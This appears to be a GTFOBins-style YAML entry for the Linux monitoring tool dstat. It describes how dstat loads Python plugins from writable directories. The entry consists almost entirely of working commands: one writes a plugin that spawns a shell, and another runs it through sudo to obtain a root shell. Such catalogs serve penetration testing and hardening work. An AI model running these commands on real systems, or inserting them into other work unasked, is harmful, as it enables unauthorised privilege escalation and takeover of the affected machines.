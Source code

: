 ```yaml
---
description: |
  `dstat` allows you to run arbitrary Python scripts loaded as "external plugins" if they are located in one of the directories stated in the `dstat` man page under "FILES":

  1. `~/.dstat/`
  2. `(path of binary)/plugins/`
  3. `/usr/share/dstat/`
  4. `/usr/local/share/dstat/`

  Pick the one that you can write into.
functions:
  shell:
    - code: |
        mkdir -p ~/.dstat
        echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
        dstat --xxx
  sudo:
    - code: |
        echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
        sudo dstat --xxx
---
```

